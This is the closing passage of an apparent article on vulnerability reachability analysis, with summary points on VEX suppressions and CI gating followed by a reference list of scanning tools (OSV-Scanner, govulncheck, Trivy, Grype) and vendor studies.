- VEX makes "not affected" machine-readable; OpenVEX justification values map directly onto the reachability ladder, and every suppression — VEX or ticket — needs an expiry date because unreachable-today is one refactor away from reachable.
- Gate on reachable-plus-exploited-signal, warn on unreachable; track the noise-reduction ratio and suppression-expiry burn-down — and never let reachability replace patching: it only decides the order.

## References

- OSV-Scanner documentation (lockfile-aware scanning, call analysis flags, output formats) — https://google.github.io/osv-scanner/
- google/osv-scanner source repository — https://github.com/google/osv-scanner
- govulncheck command reference, golang.org/x/vuln (source/binary modes, call-stack output, documented limitations, OpenVEX output) — https://pkg.go.dev/golang.org/x/vuln/cmd/govulncheck
- OpenVEX — the minimal VEX specification — https://openvex.dev/
- Trivy documentation (integrated SBOM generation and vulnerability scanning) — https://trivy.dev/
- aquasecurity/trivy source repository — https://github.com/aquasecurity/trivy
- anchore/grype source repository (SBOM-based vulnerability matching) — https://github.com/anchore/grype
- Endor Labs, dependency-risk research (2022) — reported on the order of 95% of open-source vulnerabilities unreachable from application code in studied Java dependency trees (no URL; vendor study).
- Datadog Security Labs, Log4j impact retrospective (2022) — roughly 38% of production Java services carried a vulnerable log4j-core version; the triggerable subset was far smaller (no URL; vendor study).
- Eclipse Steady project (SAP Research; archived) — the original static-call-graph-plus-execution-probe design for library usage analysis (no URL; project archived).
- Go team, govulncheck launch and vulnerability-database design notes (2023) — the symbol-level reachability rationale (no URL; official Go blog).
- OSV schema specification — affected-ranges and per-ecosystem extensions as consumed by OSV tooling (no URL; schema docs at osv.dev).
